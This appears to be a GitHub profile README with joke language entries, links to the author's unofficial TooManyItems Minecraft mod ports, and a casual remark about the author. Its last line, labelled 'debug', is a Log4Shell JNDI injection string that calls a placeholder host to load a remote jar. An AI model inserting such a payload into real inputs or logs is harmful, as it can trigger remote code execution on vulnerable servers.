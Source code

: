 # Supported languages:
- English
- International Phonetic Alphabet
- Autistic Chinese
- lang.128.name

## TOOMANYITEMS mod For 1.8.9 and Legacy Fabric(unoffically upgraded&ported by me)
https://github.com/HowardZHY/TooManyItems
https://github.com/HowardZHY/TooManyItems-LegacyFabric


Most people thonk I'm at least 30, 40 even 50 years old.


debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
